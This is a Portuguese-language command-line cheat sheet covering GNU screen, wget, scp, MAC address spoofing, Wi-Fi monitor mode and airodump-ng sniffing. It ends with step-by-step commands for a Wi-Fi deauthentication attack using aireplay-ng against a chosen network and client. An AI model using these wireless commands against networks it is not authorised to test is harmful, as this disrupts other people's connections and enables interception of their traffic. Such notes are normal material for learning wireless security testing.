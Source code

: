 ## SCREEN

|Funcionalidade|Comando|
|---|---|
|Criar Sessão|CTRL+a + CTRL+c|
|Detach Sessão|CTRL+a + CTRL+d|
|"Alt Tab" de sessões|CTRL+a + CTRL+a|
|Mudar para sessão por ID|CTRL+a + "|
|Split Vertical|CTRL+a + CTRL+\| |
|Split Horizontal|CTRL+a + CTRL+S |

```
# listar as sessoões:
screen -ls
```
```
# exucutar comando em nova sessão e dar detach:
screen -d -m COMMAND
```
```
# retach em sessão
screen -r [screen id]
```
```
# excluir uma sessão:
screen -X -S SESSION_ID quit
```
#

## WGET

```
# baixar arquivo do google drive pelo wget
wget --no-check-certificate 'https://docs.google.com/uc?export=download&id=[ID]' -O [NAME]
```

#

## SCP

```
# baixar folder remoto para local via ssh, com scp:
scp -r user@host:[/path/to/folder/] [local-copy-of-folder]
```
```
# baixar arquivo remoto para local via ssh, com scp:
scp user@host:[/path/to/folder/file.name] [local-copy-of-folder]
```
```
# enviar arquivo local para remoto via ssh, com scp:
scp [local-copy-of-folder/file.name] user@host:[/path/to/folder/]
```

#

## MAC change

```
ifconfig wlan1 down
ifconfig wlan1 hw ether 00:11:22:33:44:55
ifconfig wlan1 up
```

## Monitor Mode

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```

## Sniffing

|||
|-|-|
|BSSID|mac|
|PWR|força do sinal|
|Beacons|broadcast existencia da rede|
|#Data|total de dados trafegados|
|#/s|total de dados trafegados por segundo|
|CH|canal da rede|
|MB|velocidade máxima suportada|
|ENC|encriptação da rede|
|CIPHER|cifra da rede|
|AUTH|autenticação utilizada|
|ESSID|nome da rede|
|STATION|cliente conectado na rede|

### Tudo
```
# interface de rede wifi precisa estar em modo monitor
airodump-ng wlan1
```

### Rede espefífica
```
# interface de rede wifi precisa estar em modo monitor
airodump-ng --channel [canal] --bssid [mac] --write [output file] wlan1
```

## Deauth

1. Listar redes e escolher alvo
```
airodump-ng wlan1
```

2. Sniffar o alvo. Escolha o client alvo. **Deixe o terminal aberto**
```
airodump-ng --channel 1 --bssid 00:11:22:33:44:55 wlan1
```

3. Realizar deauth
```
aireplay-ng --deauth 10000000 -a [bssid rede] -c [mac client] wlan1
```
